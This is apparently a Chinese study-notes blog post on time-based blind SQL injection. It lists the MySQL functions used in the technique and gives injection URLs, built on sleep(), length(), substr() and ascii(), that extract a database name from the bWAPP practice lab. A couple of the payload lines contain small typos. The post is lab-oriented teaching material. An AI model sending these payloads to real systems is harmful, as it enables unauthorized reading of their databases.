 ```yaml
---
title: 《Web攻防安全实战》学习总结：SQL注入实战——利用时间盲注绕过无报错无回显场景
date: 2021-01-08 22:02:24
index_img: /img/websecurity.png
banner_img: /img/websecurity.png
tags:
  - 安全
  - Web安全
categories:
  - Web安全
  - SQL注入
---
```

# 时间盲注
## 时间盲注常用函数

```
substr（a,b,c）：从b位置开始，截取字符串a的c长度
count（）：计算总数
ascii（）：返回字符的ASCII码
length（）：返回字符串的长度
left（a,b）：从左到右截取字符串a的前b个字符
sleep（n）：将程序挂起n秒
```

## 时间盲注实战

World War Z电影存在
```
# 判断是否存在时间盲注
http://bwapp.com:8888/sqli_15.php?title=World War Z' and sleep(2)-- &action=search
# 判断数据库名长度
http://bwapp.com:8888/sqli_15.php?title=World War Z' and length(database()) > 5 and sleep(2)-- &action=search
# 利用substr函数遍历数据库名称字符，比如下面通过时间盲注判断数据库的第一个字符是不是b
http://bwapp.com:8888/sqli_15.php?title=World War Z' and substr(database(),1,1) = 'b' and sleep(2)-- &action=search
# 自动化检测
# 通过程序比较，数字的运算会更加快速方便，将字符串转换为ascii码进行对比
http://bwapp.com:8888/sqli_15.php?title=World War Z' and ascii(substr(database(),1,1))=1 and sl eep(2)-- aaction=search
http://bwapp.com:8888/sqli_15.php?title=World War Z' and ascii(substr(database(),1,1))=98 and sleep(2)-- aaction=search
# 自动化遍历数据库名、内容脚本
```
![fileupload](/img/sql/timebase/timebase1.png)
![fileupload](/img/sql/timebase/timebase2.png)
